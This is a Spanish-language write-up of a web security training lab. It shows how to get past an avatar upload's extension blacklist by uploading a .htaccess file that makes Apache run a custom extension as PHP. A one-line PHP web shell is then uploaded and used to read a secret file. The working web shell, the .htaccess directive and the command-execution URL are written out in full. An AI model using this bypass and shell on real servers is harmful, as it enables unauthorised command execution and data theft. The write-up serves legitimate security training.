





# 📤 Web shell upload mediante bypass de blacklist de extensiones

## 📄 Descripción del laboratorio

El laboratorio implementa una funcionalidad de **subida de avatares** que bloquea extensiones peligrosas como `.php` mediante una **lista negra de extensiones**.

Sin embargo, esta protección resulta ineficaz porque el servidor **Apache permite la subida de archivos `.htaccess`**, lo que posibilita redefinir el comportamiento del intérprete.

El objetivo es:

* Bypassear la blacklist de extensiones.
* Subir una **web shell PHP funcional**.
* Leer el archivo:

```
/home/carlos/secret
```

* Enviar el secreto para completar el laboratorio.

Credenciales de prueba:

```
wiener:peter
```


## 📚 Teoría

Las **blacklists de extensiones** son una defensa débil frente a vulnerabilidades de subida de archivos porque:

* Solo bloquean las extensiones que el desarrollador recuerda añadir a la lista.
* No tienen en cuenta la **configuración real del servidor**.
* No consideran **extensiones alternativas** ni archivos de configuración.

### 📌 El punto crítico: `.htaccess`

En servidores **Apache**, los archivos `.htaccess` permiten definir **directivas locales de configuración**.

Si una aplicación permite subir `.htaccess`, un atacante puede:

* Definir nuevas extensiones ejecutables.
* Cambiar el **Content-Type**.
* Forzar la interpretación de archivos arbitrarios como **PHP**.

Un ejemplo típico de directiva sería:

```http
AddType application/x-httpd-php .hacked
```

A partir de ese momento, cualquier archivo con extensión `.hacked` será interpretado como **código PHP ejecutable**.


## 📝 Práctica

### 🎯 Objetivo

Leer el archivo:

```
/home/carlos/secret
```


### 1️⃣ Iniciar sesión

Se accede a la aplicación con las credenciales:

```
wiener:peter
```

Posteriormente se navega a **My Account → Upload avatar**.


### 2️⃣ Confirmar la blacklist

Se intenta subir una web shell directamente:

```php
<?php system($_GET['cmd']); ?>
```

guardada como:

```
shell.php
```

<br>

Resultado:

El servidor rechaza la subida indicando que la extensión `.php` no está permitida.

Esto confirma que existe una **blacklist de extensiones activa**.


### 3️⃣ Preparar el archivo `.htaccess`

Se crea un archivo llamado `.htaccess` con el siguiente contenido:

```http
AddType application/x-httpd-php .hacked
```

Esta directiva indica a Apache que cualquier archivo con extensión `.hacked` debe ser interpretado como **PHP**.


### 4️⃣ Subir el archivo `.htaccess`

La aplicación puede exigir que el archivo **parezca una imagen**.

Para evitar esta restricción se puede:

* Subir una imagen válida y **modificar su contenido con Burp Suite**.
* O subir directamente `.htaccess` si el nombre del archivo no se valida.

Se intercepta la petición con **Burp Suite** y se reemplaza el contenido del archivo por la directiva anterior.

<br>

Resultado:

El archivo `.htaccess` se sube correctamente.


### 5️⃣ Subir la web shell con extensión permitida

Se crea la siguiente web shell:

```php
<?php system($_GET['cmd']); ?>
```

Se guarda como:

```
shell.hacked
```

Se sube el archivo como avatar, interceptando la petición si es necesario.

<br>

Resultado:

La subida se completa correctamente.


### 6️⃣ Leer el secreto

Una vez subida la web shell, se accede a:

```
/files/avatars/shell.hacked?cmd=cat /home/carlos/secret
```

El servidor ejecuta el comando y devuelve el contenido del archivo objetivo.




### 7️⃣ Resolver el laboratorio

Se copia el valor obtenido y se introduce en el formulario de resolución del laboratorio.

El laboratorio se completa correctamente.


